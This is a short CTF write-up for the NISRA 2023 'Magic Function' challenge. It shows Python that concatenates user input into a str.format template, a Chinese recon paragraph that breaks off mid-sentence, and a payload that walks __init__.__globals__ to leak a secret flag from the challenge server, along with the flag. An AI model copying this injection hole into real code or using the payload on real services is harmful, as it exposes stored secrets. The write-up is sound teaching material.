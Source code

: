 ```yaml
---
title: NISRA 2023 Enlightened - Magic Function
tags: [NISRA, CTF, Misc]

category: "Security > Practice > NISRA > Misc"
---
```


# NISRA 2023 Enlightened - Magic Function
## Background
[Magic Function of Python](https://hacktricks.boitatech.com.br/misc/basic-python/magic-methods)

## Source Code
```python=
class Test():
	def __init__(self, email='test@nisra.net'):
		self.info = 'test'
		self.email = email

class Secret():
	flag = open("./NISRA-Enlightened-2023/flag.txt", "r").read().strip()


if __name__ == '__main__':
	email = input('Your email: ')

	if email:
		test = Test(email)
	else:
		test = Test()

	msg = ('this is for {test.info}, please contact ' + email + '.').format(test=test)

	print(msg)
```


## Recon
這一題真的很有趣，但也是算通靈的奇淫怪招，仔細看了一下直覺應該是跟format string有關係，比賽的時候的確有想到，但我當時想的payload有點偏掉了，當時的payload是: `{test.email}.format(test=Test(Secret().flag))`，也就是先傳入Secret().flag給Test這個class，然後再利用format傳入給

## Exploit
```bash
$ echo "{test.__init__.__globals__[Secret].flag}" | nc chall2.nisra.net 43001
Your email: this is for test, please contact NISRA{Ma9ic_pY3h0n_!!???}.
```

Flag: `NISRA{Ma9ic_pY3h0n_!!???}`